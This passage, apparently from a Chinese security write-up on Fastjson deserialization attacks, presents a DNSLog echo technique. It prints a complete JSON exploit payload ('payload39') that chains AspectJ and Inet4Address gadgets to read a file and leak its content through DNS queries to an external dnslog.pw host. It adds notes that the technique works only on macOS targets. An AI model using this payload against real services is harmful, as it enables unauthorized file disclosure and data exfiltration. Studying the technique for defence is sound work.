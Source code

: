 [![](assets/1706254407-88831b78c44c5abfe2cc643914bb5d1e.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231020212607508.png)

#### 4.1.1.3 dnslog 回显法（需要对方为 mac 环境且 dnslog 平台支持特殊符号）

`payload39`：

```plain
[{"@type":"java.lang.Exception","@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"},{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]}}},{"username":{"@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit","@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"1.txt"},"password":{"@type":"java.net.Inet4Address","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type": "java.lang.String""@type":"java.util.Locale","language":{"@type":"java.lang.String"{"$ref":"$"},"country":"aaa.qmc8xj4s.dnslog.pw"}}}}]
```

但是只有`mac`才支持`ping`带花括号的域名，所以我`Windows`这里会提示`deserialize inet adress error`：

[![](assets/1706254407-02e446fbc9f55f782f13363b0d256a17.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231020213159191.png)
